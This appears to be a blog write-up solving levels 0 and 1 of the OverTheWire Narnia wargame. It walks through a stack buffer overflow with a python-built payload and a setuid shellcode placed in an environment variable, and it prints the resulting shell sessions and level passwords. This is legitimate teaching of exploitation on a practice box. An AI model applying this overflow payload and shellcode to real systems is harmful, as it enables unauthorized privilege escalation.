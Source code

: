 ```yaml
---
layout: post
title: narnia-writeup-00-01
excerpt: "Writeup for the Narnia (L00 & L01)  wargame on overthewire.org."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / narina](http://www.overthewire.org/wargames/narnia/)

## Level 0 ##

As per [Narnia's introduction page](http://overthewire.org/wargames/narnia/), we first ssh into the box (`ssh narnia0@narnia.labs.overthewire.org -p 2226`). The challenges are located in `/narnia`. Let's take a look at the first one.

``` shell
narnia0@narnia:~$ pwd                                                                                   /home/narnia0                                                                                           narnia0@narnia:~$ cd /narnia                                                                            narnia0@narnia:/narnia$ ls                                                                              narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8         narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c       
```

This is the contents of the one we're interested in:

``` c
#include <stdio.h>                                                                                      #include <stdlib.h>                                                                                                                                                                                             int main(){                                                                                                     long val=0x41414141;                                                                                    char buf[20];                                                                                                                                                                                                   printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");                                         printf("Here is your chance: ");                                                                        scanf("%24s",&buf);                                                                                                                                                                                             printf("buf: %s\n",buf);                                                                                printf("val: 0x%08x\n",val);                                                                                                                                                                                    if(val==0xdeadbeef)                                                                                             system("/bin/sh");                                                                              else {                                                                                                          printf("WAY OFF!!!!\n");                                                                                exit(1);                                                                                        }                                                                                                                                                                                                               return 0;                                                                                       }                    
```

If we somehow get `val` to be equal to `0xdeadbeef`, the programm will execute a `/bin/sh`. Because this program as the sticky bit set and is owned by `narnia1`, this would escalate our privileges:

``` shell
narnia0@narnia:/narnia$ ls -l narnia0
-r-sr-x--- 1 narnia1 narnia0 7460 May 23 13:20 narnia0
```

From the source code we see that `buf` is located after `val`. This means that on the stack, overflowing `buf` (which is only 20 characters long) will cause it to start overriding `val`. This should be relatively straightforward:

``` shell
narnia0@narnia:/narnia$ ./narnia0                                                                       Correct val's value from 0x41414141 -> 0xdeadbeef!                                                      Here is your chance: AAAAAAAAAAAAAAAAAAAA                                                               buf: AAAAAAAAAAAAAAAAAAAA                                                                               val: 0x41414100                                                                                         WAY OFF!!!!
```

Now it turns out the box has Python installed. So let's use that:

``` shell
narnia0@narnia:/narnia$ python --version                                                                Python 2.7.6                                                                                            
narnia0@narnia:/narnia$ python -c "print 'A'*20 + '\xad\xde'" | ./narnia0                               Correct val's value from 0x41414141 -> 0xdeadbeef!                                                      Here is your chance: buf: AAAAAAAAAAAAAAAAAAAA��                                                        val: 0x4100dead                                                                                         WAY OFF!!!!
```

Note the byte order (we're on a little indian machine). From there it's easy to extrapolate:

``` shell
narnia0@narnia:/narnia$ python -c "print 'A'*20 + '\xef\xbe\xad\xde'" | ./narnia0                       Correct val's value from 0x41414141 -> 0xdeadbeef!                                                      Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�                                                        val: 0xdeadbeef 
narnia0@narnia:/narnia$ whoami
narnia0
```

Mmm. So we managed to overwrite `val` but 'nothing' happened. It turns out the pipe (`|`) sends EOF once done, which closes the shell (`system` does not spawn a separate process). We need to find a way to hold it open whilst accepting user input. `cat` to the rescue:

``` shell
narnia0@narnia:/narnia$ (python -c "print 'A'*20 + '\xef\xbe\xad\xde'";cat) | ./narnia0                 Correct val's value from 0x41414141 -> 0xdeadbeef!                                                      Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�                                                        val: 0xdeadbeef                                                                                         whoami                                                                                                  narnia1                                                                                                 cat /etc/narnia_pass/narnia1                                                                            efeidiedae
```

Done!

## Level 1 ##

Along the same lines as the one above, this is the source code given to us:

``` c
#include <stdio.h>

int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){
                printf("Give me something to execute at the env-variable EGG\n");
                exit(1);
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG");
        ret();

        return 0;
}
```

The aim is to store some special code (shellcode) into `EGG` which, when executed, will cause the program to give us a shell with escalated privileges.

I so happen to have some [shellcode lying around](http://perso.heavyberry.com/articles/2016-12/sec_bufferoverflow). Writing shellcode is beyond the scope of this post though.

``` shell
narnia1@narnia:/narnia$ export EGG=$(printf "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80")
narnia1@narnia:/narnia$ echo $EGG
1▒1ə▒▒̀j
       XQh//shh/bin▒▒▒▒
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```

Easy peasy.
